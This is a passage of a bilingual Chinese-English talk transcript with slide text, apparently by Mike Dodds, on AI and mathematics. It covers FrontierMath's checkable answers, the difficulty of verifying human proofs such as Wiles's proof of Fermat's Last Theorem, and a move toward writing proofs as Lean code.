```

幻灯片 29 Slide 29



**幻灯片文字 / Slide text**

```
math AI
Checkable answers
checker
FrontierMath problem
 <nonsense> <lies>
... ꙮ̃ƨ̛ʚ̤ɐ̧ʁ̶ɣ̨̊ƕ̸ɘ̴̆ʬ̡ɤ̂ʮ̧ɯ̃ɞ̶̨ʃ̤
...
... 866!
```

幻灯片 30 Slide 30



**幻灯片文字 / Slide text**

```
math AI
Checkable answers
checker
FrontierMath problem
 <nonsense> <lies>
... ꙮ̃ƨ̛ʚ̤ɐ̧ʁ̶ɣ̨̊ƕ̸ɘ̴̆ʬ̡ɤ̂ʮ̧ɯ̃ɞ̶̨ʃ̤
...
... 866!
if ($answer == 866)
  correct!
else
  wrong :(
```

这完全是有意设计的，因为这样，我们就能解决猜测与检查的问题。给出一道 FrontierMath 题，让数学 AI 去做，再把它交给检查器。数学 AI 通过某个你不理解的过程，提出一个答案。And that's very much by design, you know, because that means that then we can solve this guessing and checking problem. So we can say okay, here's a Frontier Math problem, here's our math AI, we give this to our checker, and I you know, the Frontier yeah math AI comes up with some answer by some process you don't understand.

然后，我们有一种非常简单的方式，检查答案是否正确。只需要问：“这是不是我想要的答案？”And then what we have is like a very simple way of checking that it got the answer right. So we just sort of say, "Hey, okay is this actually like the answer I wanted?"

Audience很多时候，你可以猜测某件事是真的，但其实并不知道它是不是真的；中间步骤也可能有这个问题，尤其是这些答案。You can often sort of guess that something is true without really knowing whether it actually is true or in your steps along the way and in particular with these answers.

Mike Dodds对，是这样。Yeah, that's correct. Yeah.

Audience也许，中间某一步之所以能产生正确计算结果，实际上需要一个很深的定理才能保证，而它并没有真正……So I mean it could be hey, you know, there's some deep theorem required to say that some step of this is actually producing the correct calculation. That actually isn't actually isn't you know

Mike Dodds对，对。在这里，FrontierMath 的设计目标，是让你没有别的路径得到答案。给线上观众复述一下，问题大致是：答对了，并不一定说明真正具备能力或者理解。Yeah, yeah, and in this case so Frontier Math is supposed to be designed so that there's no other way to get the answer. Uh just for online the question was sort of this doesn't necessarily demonstrate competence or understanding.

## 把话题转向一种特定的问题类型Changing the subject to a specific problem type

你可能只是找到了某种办法，基本上算是在作弊，用某条路径得到了答案，却并不理解它。FrontierMath 的设计，本来就是为了抵抗这类情况。It's you could just find you could like cheat basically. There could be some way of getting the answer which means you don't understand it. Um but I mean in this case Frontier Math is supposed to be designed to resist kind of like that sort of that sort of those sort of attacks.

但实际上，确实出现过一些案例，团队后来认为，题目存在他们事先没发现的捷径。总体而言，我觉得它是一个不错的代理指标，但肯定不完美。尤其是像 866 这样的答案，可能答案空间本身，也不算太大。请说。But in point of fact there have been cases where I think that the team decided that there were shortcuts that they didn't know were there. Um, I think in aggregate it's a fairly good kind of proxy, but it's certainly not perfect cuz like especially for this like 866 is not that big a space of like possible answers, I suppose. Oh, go ahead, yeah.

Audience也许我可以补充一点我的理解，不过我不知道，这是 FrontierMath 的关键特征，还是另一个基准的特征。这类题有点像在有限条件下做某种枚举计数。他们用的术语略有不同，叫什么来着？有限域上的枚举几何。Maybe to fill in some my sense with this and I don't know if there's a key in front of your mouth or a different benchmark. Like this is kind of enumerated common problems of sorts with finite they use slightly different terms than that. What was it? Enumerative geometry over finite fields.

Mike Dodds我就知道会有人提出不同意见。很好。I knew there'd be some opposition there. That's great.

Audience所以，即使不用 AI，让计算机穷举大量情况，对这类问题也会有帮助，这是合理的。但即使借助 SAT 求解器，你原本能用的那些方法，是否足以解决它，似乎也并不明显。[清嗓]So, it makes sense that even if you weren't using AI, having a computer crunch through a ton of cases would be helpful for this kind of problem. But it's not clear that methods that [clears throat] you would have even aided by SAT solvers would necessarily resolve this.

因此，我觉得，这比笼统地说“数学”，或者“数学前沿”，要窄一些；但它也比把事情说成某种无聊的例行工作，要有意思得多。Um, so I think that's quite a bit more narrow than just saying math like the frontier of math, but also quite a bit more interesting than just saying you know, boring health care.

Mike Dodds对，我也应该补充，FrontierMath 并不要求其中每一道题，都能代表整个数学领域。但他们确实花了很多精力，在保持“容易检查”这一设计的同时，尽量覆盖更广泛的数学。好，基本上，这正是我要说的。Yeah, and I would I should also say that like I don't think frontier math is intended to be like any individual question is intended to be representative of math, but they did work quite hard to try and cover like as much of math as possible while maintaining this easy to check design. Um Now, well okay, so the problem I mean basically we kind of this is the point.

幻灯片 31 Slide 31



**幻灯片文字 / Slide text**

```
Most math problems
need proofs
```

问题在于，大多数数学问题，尤其是困难的数学问题，确实需要证明。我们没法只靠一个简单明确的答案。数学证明本身是一种很好的东西。这里是维基百科上的一段很漂亮的动画。Um, the problem is like most math questions, most hard math questions actually require proofs, right? We can't just kind of you know, we don't have like closed form answers. And the problem that we have here is that you know, well a math proof okay, so a math proof is a really good thing. This is a nice animation from Wikipedia.

幻灯片 32 Slide 32



**幻灯片文字 / Slide text**

```
Math proofs
- Structured rigorous arguments
- Each individual step can be conﬁrmed
- “Trustless” - don’t have to trust the author
```

证明是一种结构化论证，每个单独步骤都可以确认。它有一个很好的性质，就是通常不需要依赖对人的信任。我们不必知道是谁提出了证明，不必相信这个人是好人、是可靠的人，或者有良好意图。证明本身，是一件独立的、可以检查的产物。Um, and it's a thing where kind of we have like a structured arguments, it's individual step can be confirmed, and it has this really nice property that a proof is typically sort of like it's sort of trustless, right? You know, we don't have to like know who came up with it or believe that person is kind of good or fine or believe has good intentions. The proof itself is a separate artifact that we can check.

**展开前面的幻灯片（33）Show preceding slides (33)**

幻灯片 33 Slide 33



**幻灯片文字 / Slide text**

```
math AI
theorem add_zero_eg:
∀ n : ℕ, n + 0 = n
Human proofs are hard to check
checker
```

幻灯片 34 Slide 34



**幻灯片文字 / Slide text**

```
math AI
theorem add_zero_eg:
∀ n : ℕ, n + 0 = n
<incomprehensible>
... blaawaaaaghhhhhhhh ...
... Answer: Let n be an
arbitrary natural number. We
proceed by induction on n. Base
case: n = 0, both sides 0 by
definition. Inductive step:
assume k + 0 = k. Then (k+1) +
0 = (k+0) + 1 = k + 1. QED!
Human proofs are hard to check
checker
??
```

如果能够做到，这当然很好。但问题是，按照我们想要的方式，人类写的证明其实相当难检查。对于人们通常组织证明的方式，我们没法简单写一个条件判断：“如果满足某某条件，就……”比如，这里有一个定理，是用 Lean 语法写的，稍后我会介绍 Lean。And so this is a very nice thing to have if we can get to it. But the thing is that like human proofs are actually relatively hard to check in the way that we want. We can't write sort of a conditional statement that says, you know, if blah blah blah unlike the normal way that people structure proofs. So like for example, we have this theorem here. It's written in Lean syntax. I'll talk about Lean later.

接着分情况讨论，比如，对于更小的值，我们知道什么，或者还不知道什么。但是，要为这种证明编写一个高度可信的检查器，并不容易。所以，从这个意义上说，人类证明很难检查。对于更困难的证明，也一样。You kind of like okay, either you're in like the case where, you know, sort of we know this for kind of the smaller values or we don't, right? But this isn't really very easy for us to write like a highly trustworthy checker for this kind of proof. It's just hard to do that. Um And so hard human proofs are hard to check in this sense. And it's also true for like harder proofs.

**展开前面的幻灯片（35–36）Show preceding slides (35–36)**

幻灯片 35 Slide 35



**幻灯片文字 / Slide text**

```
math AI
theorem vv_easy_eg:
  ∀ x y z: ℕ+,
  ∀ n: ℕ,
    n ≥ 3 →
    x^n + y^n ≠ z^n
Hard proofs are harder to check!
checker
```

幻灯片 36 Slide 36



**幻灯片文字 / Slide text**

```
math AI
theorem vv_easy_eg:
  ∀ x y z: ℕ+,
  ∀ n: ℕ,
    n ≥ 3 →
    x^n + y^n ≠ z^n
Hard proofs are harder to check!
checker
<nonsense> ... daisy, daisy
... have discovered a truly
marvelous proof of this,
CHECK IT OUT: [flt.pdf]
???
```

幻灯片 37 Slide 37

[figure not shown]

**幻灯片文字 / Slide text**

```
math AI
theorem vv_easy_eg:
  ∀ x y z: ℕ+,
  ∀ n: ℕ,
    n ≥ 3 →
    x^n + y^n ≠ z^n
Hard proofs are harder to check!
checker
<nonsense> ... daisy, daisy
... have discovered a truly
marvelous proof of this,
CHECK IT OUT: [flt.pdf]
?????
???????
?????????
```

比如，这个“非常简单、直接”的例子：费马大定理。它当然不简单。但它是我们可能希望 AI 去证明的那类定理。实际上，Andrew Wiles 已经证明了它，不过，我们可能希望 AI 证明同样困难的东西。然后，AI 说：“太好了，我找到了证明，好消息！”Like this is the, you know, very easy straightforward. It's Fermat's Last Theorem. So it's like it's not easy. But it's here's a theorem that we might want the AI to prove. Actually, we already you know, Andrew Wiles already proved it, but we might want to kind of get the AI to prove similarly hard things, right? And so okay, like you know, the sort of AI says great, wonderful. I found a proof. Good news.

接着，它说：“看看我这份惊人的 PDF，足足一百页，写满了这样的东西。”这就没法轻松检查了。检查这种内容，实在很难。当然，确实有一篇很好的论文，详细讨论了这个问题。And then it sort of like says look at my kind of amazing PDF of a hundred pages of like this sort of stuff here. Well, we can't very easily check this. It's just hard to kind of check this stuff. And it's, you know, I mean you know, obviously like there's a very nice sort of paper that kind of like goes into this in detail.

## AI 在验证证明中的作用AI's Role in Verifying Proofs

幻灯片 38 Slide 38

[figure not shown]

**幻灯片文字 / Slide text**

```
Trust takes time
1637: Fermat claims proof, good joke
    …
1993: Wiles announces FLT proof
1993–94: Referees ﬁnd a serious gap
1995: Wiles/Taylor repaired proof
1999: 100+ page proof broadly accepted
Andrew Wiles announces
the FLT proof, INI, 1993
```

但这不是我们能够直接交给证明检查器的东西。即使从人类的角度，即使你是一位真正的数学家，建立信任也需要很长时间。Andrew Wiles 大约在 1993 年提出了费马大定理的证明，后来发现证明里存在一些问题。And but it's not really something that we can kind of give to a proof checker. Um And in fact like in human terms, like even if you're someone like, you know, like a real human mathematician, trust takes a lot of time. And so, you know, Andrew Wiles kind of comes up with the Fermat's Last Theorem proof in what Sorry, like 1993. And I think that it turned out to be some problems with the proof.

幻灯片 39 Slide 39

[figure not shown]

**幻灯片文字 / Slide text**

```
Trust takes time
1637: Fermat claims proof, good joke
    …
1993: Wiles announces FLT proof
1993–94: Referees ﬁnd a serious gap
1995: Wiles/Taylor repaired proof
1999: 100+ page proof broadly accepted
Andrew Wiles announces
the FLT proof, INI, 1993
```

到了 1999 年，在修复一些问题之后，证明才得到广泛接受。这是一个漫长的检查过程。如果我们要使用 AI 数学家，很快就会没有足够的人来检查证明。无论这种方式多么优美，都无法以此扩展数学的产出规模。And then by 1999, after having fixed some problems, the proof is broadly accepted, right? So, this is sort of like a long process of like checking this. So, if we were going to use our AI mathematician, you know, we're going to run out of people to check the proofs quite quickly. We're not going to be able to scale mathematics if we kind of do it this way, no matter how nice it is.

幻灯片 40 Slide 40

[figure not shown]

**幻灯片文字 / Slide text**

```
Tuesday!
```

这两个时间点之间，间隔相当长。话虽如此，数学家已经开始把 AI 纳入自己的工作流程，即使还没有采用形式化证明，而是按照通常的数学方式工作。人们一直在研究那些 Erdős 问题。做这种报告的好处是，总有人不断做出有意思的新东西。So, yeah, there's quite a long gap between these two points. Um That said, people are like mathematicians are using mathematics using like AI as part of their processes even without kind of doing like, you know, in the sort of normal mathematics sort of a way. Um people have been working through these Erdős problems. Um. The nice thing about this kind of talk is that like people kept on doing interesting things.

我就想：“把这个也放进报告里。”这张幻灯片，是我星期二写的时候加进去的。当时，有人解决了这样一个问题。至少按照我在 Twitter 上关注的那些人的反应，这似乎真的到了一个时刻：一些真正的数学家，确实被这个结果打动了。I thought, I'll stick that in the talk, right? So, this was like Tuesday when I was writing the slide. Um someone solved this kind of problem. Um I think this is like genuinely sort of feels like the moment where, going by like the people I follow on Twitter at least, where some legitimate mathematicians were legitimately impressed by some of by this by this result.

之前的一些 Erdős 问题，可能多少已有文献层面的理解。但这一个，感觉更像一个新结果。AI 正在产出这些东西，用人类数学的方式写下来，非常有意思。而形式化工作也正在进行。Previous Erdős problems, I think have been more like things that maybe were understood somewhat in the literature. But this one feels like more like a novel result. So, that's like the AIs are kind of producing these things and they're writing them down in kind of like, you know, human mathematics. You know, it's very interesting. Okay. And formalization underway. So, Okay.

## 数学证明的艺术：实践指南The Art of Mathematical Proof: A Practical Guide

幻灯片 41 Slide 41



**幻灯片文字 / Slide text**

```
Trust and AI
AI Does Math
Proofs as Code
Formal oversight
```

如果我们想把数学、把证明，作为处理其他事情的主力，就显然不能一直停留在人类证明的这种方式上。必须有另一种处理方式。办法就是，把证明写成代码。So, we the we if we want to use like mathematics as our kind of if we want to use proof as like our workhorse for other kinds of things, we obviously can't do this in like this human proof kind of a way. We have to have some other way of dealing with it. And the way that we can do that is we can do kind of write down our proofs as code.

**展开前面的幻灯片（42–44）Show preceding slides (42–44)**

幻灯片 42 Slide 42



**幻灯片文字 / Slide text**

```
import Mathlib
theorem add_zero_eg :             -- Proof:
∀ n : ℕ, n + 0 = n := by
  intro n                         -- Let n be an arbitrary natural number.
  induction n with                -- We proceed by induction on n.
  | zero => rfl                   -- Base case: n = 0, both sides 0 by definition.
  | succ k ih =>                  -- Inductive step: assume k + 0 = k.
    simp only [Nat.succ_add, ih]  --   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
A theorem as code
```

幻灯片 43 Slide 43

